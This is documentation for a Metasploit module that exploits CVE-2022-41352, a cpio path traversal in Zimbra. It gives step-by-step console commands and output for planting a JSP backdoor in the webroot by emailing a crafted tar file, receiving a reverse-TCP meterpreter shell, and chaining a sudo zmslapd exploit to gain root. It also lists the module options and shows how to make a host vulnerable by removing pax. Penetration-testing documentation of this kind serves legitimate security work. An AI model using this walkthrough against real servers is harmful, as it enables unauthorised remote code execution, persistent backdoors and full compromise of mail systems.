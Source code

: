 ## Vulnerable Application

This module exploits a symlink-based path traversal vulnerability in `cpio`
(that's identified as CVE-2015-1197) that's exploitable in Zimbra. The
following versions of Zimbra are vulnerable:

* Zimbra Collaboration Suite 9.0.0 Patch 26 (and earlier)
* Zimbra Collaboration Suite 8.8.15 Patch 33 (and earlier)

The patch for Zimbra adds `pax` as a pre-requisite, so any version of Zimbra
(except Ubuntu 18.04, which has a patched `cpio` binary) can be made vulnerable
with `rm $(which pax)`. 

To verify a host is vulnerable, ensure that `pax` is not installed on the host.
Also, validate that `cpio` is listed in `amavisd.conf` as an option to extract
.tar/.cpio files:

```
[ron@mail tmp]$ sudo cat /opt/zimbra/conf/amavisd.conf | grep cpio
[...]

  [['cpio','tar'], \&do_pax_cpio, ['pax', 'gcpio', 'cpio'] ],
```

Note that this can be chained with other Zimbra exploits to get root.

## Verification Steps

To exploit Zimbra, first load the module and generate the .tar file:

```
msf6 > use exploit/linux/http/zimbra_cpio_cve_2022_41352
[*] Using configured payload linux/x64/meterpreter/reverse_tcp
msf6 exploit(linux/http/zimbra_cpio_cve_2022_41352) > set LHOST 172.16.166.147
LHOST => 172.16.166.147
msf6 exploit(linux/http/zimbra_cpio_cve_2022_41352) > set RHOSTS 172.16.166.158
RHOSTS => 172.16.166.158
msf6 exploit(linux/http/zimbra_cpio_cve_2022_41352) > exploit
[*] Exploit running as background job 0.
[*] Started reverse TCP handler on 172.16.166.147:4444
[*] Encoding the payload as a .jsp file
[*] Adding symlink to path to .tar file: /opt/zimbra/jetty_base/webapps/zimbra/
[*] Adding target file to the archive: public/bdhg.jsp
[+] payload.tar stored at /home/ron/.msf4/local/payload.tar
[+] File created! Email the file above to any user on the target Zimbra server

[...] waiting [...]
```

Then, email that file to any user (including a non-existent mailbox) on the Zimbra server. Once the payload arrives at Zimbra, Zimbra should try to extract it to check for malware with no user interaction. Metasploit should see the malicious file extracted and get a session:

```
[...]
[+] File created! Email the file above to any user on the target Zimbra server
[*] Trying to trigger the backdoor @ public/bdhg.jsp every 5s [backgrounding]...

[file emailed]

[*] Sending stage (3045348 bytes) to 172.16.166.158
[*] Meterpreter session 1 opened (172.16.166.147:4444 -> 172.16.166.158:44808) at 2022-10-06 10:27:34 -0700

msf6 exploit(linux/http/zimbra_cpio_cve_2022_41352) > sessions -i 1
[*] Starting interaction with 1...

meterpreter > getuid
Server username: zimbra
```

For bonus points, use a different module to get root:

```
msf6 exploit(linux/http/zimbra_cpio_cve_2022_41352) > use exploit/linux/local/zimbra_slapper_priv_esc
[*] Using configured payload linux/x64/meterpreter/reverse_tcp

msf6 exploit(linux/local/zimbra_slapper_priv_esc) > set SESSION 1
SESSION => 1

msf6 exploit(linux/local/zimbra_slapper_priv_esc) > exploit

[*] Started reverse TCP handler on 172.16.166.147:4444
[*] Running automatic check ("set AutoCheck false" to disable)
[*] Executing: sudo -n -l
[+] The target appears to be vulnerable.
[*] Creating exploit directory: /tmp/.vT1bDSvZV
[*] Attempting to trigger payload: sudo /opt/zimbra/libexec/zmslapd -u root -g root -f /tmp/.vT1bDSvZV/.RhmWwHRn
[*] Sending stage (3045348 bytes) to 172.16.166.158
[+] Deleted /tmp/.vT1bDSvZV
[*] Meterpreter session 2 opened (172.16.166.147:4444 -> 172.16.166.158:60166) at 2022-10-06 10:45:30 -0700

meterpreter > getuid
Server username: root
```


## Options

### `FILENAME`

The filename to generate - defaults to `payload.tar`, but can be changed on the filesystem or whatever.

### `TARGET_PATH`

The absolute path where the payload will extract to. The default is the webroot, which is usually what you want

### `TARGET_FILENAME`

The actual filename. It really should end with `.jsp`, otherwise it won't execute.

By default, it's a random string with `.jsp` on the end, in the `public/` folder. That should work fine, especially because we can't overwrite files and don't want to use the same payload name more than once.

### `SYMLINK_FILENAME`

The path used for the symlink inside the archive; you probably won't ever want to change this (default: random)

### `TRIGGER_PAYLOAD`

A boolean, default `true`, that determines whether we use HTTP requests to trigger the .jsp payload. Set to `false` to trigger the payload manually.

### `ListenerTimeout`

The number of seconds to wait for a new session (default = `0`, or infinite).

### `CheckInterval`

The frequency with which to check for the payload on the server. Every `CheckInterval`, it performs an HTTP request to the payload path.

